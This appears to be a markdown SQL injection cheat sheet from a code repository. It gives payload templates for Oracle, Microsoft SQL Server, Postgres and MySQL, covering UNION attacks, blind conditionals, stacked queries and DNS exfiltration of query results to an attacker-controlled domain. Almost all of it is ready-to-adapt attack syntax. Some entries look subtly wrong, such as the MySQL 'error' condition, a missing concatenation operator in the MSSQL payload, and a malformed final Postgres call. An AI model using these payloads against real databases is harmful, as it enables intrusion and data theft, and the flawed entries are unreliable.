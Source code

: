 # SQL Injection
## Union Attacks
**Requires knowing number of columns returned**
**Requires selected columns matching datatypes from original query**
- `UNION SELECT <COL1> FROM <TABLE>`

### Determining Column Length
- `ORDER BY <x>--` 
- `UNION SELECT NULL,[NULL,...]--`
	- Oracle - `SELECT NULL,[NULL,...] FROM DUAL--`
Repeat until unexpected behaviour occurs

## Conditionals
**Useful for blind enumeration of DB contents**
- Oracle - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> [ELSE <FALSE>] END FROM dual`
- Microsoft - `IF (<CONDITION>) <TRUE> [<FALSE>]`
- Microsoft / Postgres - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> ELSE <FALSE> END`
- MySql / MariaDb - `SELECT IF (<CONDITION>, <TRUE>, <FALSE>)`
### Fixed Conditions
- TRUE -> `OR 1=1--`
- FALSE -> `AND 1=2--`
- Error -> 
	- Oracle - `to_char(1/0)`
	- Microsoft - `1/0`
	- Postgres - `cast(1/0 as text)`
	- MySql / MariaDb - `SELECT table_name FROM information_schema.tables`

## Comments
- Oracle / Microsoft / Postgres - `--COMMENT` `/*COMMENT*/`
- MySQL / MariaDb - `#COMMENT` `-- COMMENT` `/*COMMENT*/`

## String Concatenation
**Useful for dumping char/varchar information inside a single char/varchar column**
- Oracle / Postgres - `'<STR>'||'<ING>'`
- Microsoft - `'<STR>'+'<ING>'`
- MySQL / MariaDb - `'<STR>' '<ING>'` `CONCAT('<STR>','<ING>')`

## Substring
- Oracle - `SUBSTR('foobar', 4, 2)` -> 'ba'
- Microsoft / Postgres / MySql / MariaDb - `SUBSTRING('foobar', 4, 2)` -> 'ba'

## Stacked Queries
- Oracle - None
- Microsoft / Postgres / MySql / MariaDb - `<QUERY1>;<QUERY2>`

## DNS with Data Exfiltration
- Oracle - `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||<QUERY>||'.<DOMAIN>/"> %remote;]>'),'/l') FROM dual`
- Microsoft - `declare @p varchar(1024);set @p=(<QUERY>);exec('master..xp_dirtree "//'+@p'.<DOMAIN>/a"')`
- Postgres - `create OR replace function f() returns void as $$;declare c text; declare p text; begin; SELECT into p (<QUERY>); c := 'copy (SELECT '''') to program ''nslookup '||p||'.<DOMAIN>''';execute c;END;$$ language plpgsql security definer; SELECT ();`
- MySql / MariaDb (Windows only) - `<QUERY> INTO OUTFILE '\\\\<DOMAIN>\a'`